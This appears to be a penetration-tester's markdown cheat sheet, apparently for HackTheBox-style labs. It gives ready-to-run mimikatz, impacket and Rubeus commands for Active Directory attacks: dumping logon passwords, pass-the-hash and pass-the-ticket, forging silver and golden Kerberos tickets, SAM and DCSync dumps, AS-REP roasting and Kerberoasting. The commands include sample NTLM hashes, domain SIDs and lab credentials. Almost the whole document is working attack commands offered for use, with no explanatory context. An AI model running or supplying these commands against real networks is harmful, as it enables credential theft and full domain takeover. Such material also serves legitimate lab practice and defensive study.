 ```bash
```
### mimikatz
```powershell
cd /opt/mimikatz/x64

# PTH
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:htb.local /ntlm:cc36cf7a8514893efccd332446158b1a" "exit"
#PTT
.\mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"
.\mimikatz.exe "privilege::debug" "kerberos::ptt c:\ticket\folder" "exit"

# silver ticket
whoami /user
.\mimikatz.exe "kerberos::golden /domain:htb.local /ptt /sid:S-1-5-21-1987370270-658905905-1781884369 /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:Administrator" "exit"

# golden ticket
whoami /user
.\mimikatz.exe "privilege::debug" "kerberos::purge" "kerberos::golden /ptt /domain:htb.local /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:cc36cf7a8514893efccd332446158b1a" "exit"

# lsadump
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:krbtgt /domain:htb.local" "exit"
.\mimikatz.exe "privilege::debug" "lsadump::dcsync /all /domain:htb.local" "exit"
```
### AD
#### AS-REP
```bash
# impacket
impacket-GetNPUsers HTB.local/ -no-pass -dc-ip 10.10.10.161 -usersfile username.txt -format john -outputfile outhash.txt
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

# Rubeus
.\Rubeus.exe asreproast /nowrap /dc:
```
#### Kerberoasting 
```bash
# impacket
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -save -outputfile tgs.hash

# Rubeus
.\Rubeus.exe kerberoast /nowrap /outfile:hashes.kerberoast /dc:
```
#### DCsync
```bash
impacket-secretsdump htb.local/userattk:takSecbe987@10.10.10.161 -just-dc-user Administrator -just-dc-ntlm

# SAM
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM local
```
